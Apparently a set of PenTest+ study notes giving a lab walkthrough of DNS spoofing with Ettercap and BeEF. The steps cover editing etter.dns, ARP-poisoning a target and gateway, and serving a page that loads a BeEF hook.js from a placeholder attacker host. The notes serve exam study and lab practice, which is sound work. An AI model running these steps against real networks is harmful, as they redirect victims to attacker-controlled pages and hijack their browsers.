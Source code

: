 ### DNS Spoofing
* An attack method used to impersonate a victim's DNS server, forcing them to navigate to a malicious website.
* This attack is accomplished through MitM (Man in The Middle).
* The goal is to exploit the target with a malicious redirect or steal sensitive information from a fake web page.

### DNS Cache Poisoning
* The DNS resolver cache is overwritten on the DNS server with a malicious web address, and the user will receive the malicious site instead of the intended one.

**Use Ettercap in Kali to conduct these attacks**

## Ettercap DNS

### 1) Modify the etter.dns file
* Location: /etc/ettercap/etter.dns
* Add an entry to the file for the domain name example.com and have it point to your kali box.
* Look for the line "microsoft sucks ;) on line 57

### 2) Edit etter.conf file
* Location: /etc/ettercap/etter.conf
* Change two config settings: ec_uid and ec_gid. Set both to equal 0.
* Save and exit the file.

### 3) Create index.html
* Create an index.html in /tmp. The code to input is below
````
<html>
      <h1>You got pwnd!!</h1>
      <script src='http://HOST_IP:3000/hook.js'></script>
</html>
````

* Use the Python SimpleHTTPServer module to host the web page on port 80
````
python -m SimpleHTTPServer 80
````

### 4) Launch BeEf
````
beef-xss
````

### 5) Launch Ettercap
````
ettercap -G
````
* "Sniffing at startup" should be selected automatically.
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/5_ettercap.png)

### 6) Select the checkmark in the upper right corner to start sniffing

### 7) List the hosts Ettercap has discovered
* Select the vertical elipses in the upper right hand corner.
* Select Hosts > Hosts list
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/7_list_hosts.png)

### 8) Select hosts
* Identify and select Target 1 as the target host to redirect.
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/8_target1_host.png)

* Select Target 2 as the gateway/DNS server to impersonate. 
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/8_target2_host.png)

### 9) ARP Poisoning
* Select the map in the upper right hand corner and choose ARP Poisoning
* When the MITM Attack menu displays, cleck "Sniff remote connection" if not pre-selected.
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/9_arp_poisoning.png)

### 10) Plugins
* From the menu bar, select Plugins > Manage Plugins > dns_spoof
![](https://github.com/azul-007/Certification-Notes/blob/master/Pentest%2B/Ch7_Network_Based_Attacks/images/10_dns_spoof.png)


### 11) Start Sniffing
* On your keyboard select SHIFT-CTRL-W to start sniffing.
* You will see status messages pop up in the console window when the target host(s) has been spoofed.

### 12) From the Target...
* On the target, browse to example.com. You should be presented with a malicious web page.
* Back on the target, in the console message window of Ettercap, you will see the target IP show up.

### 13) View Target in BeEF
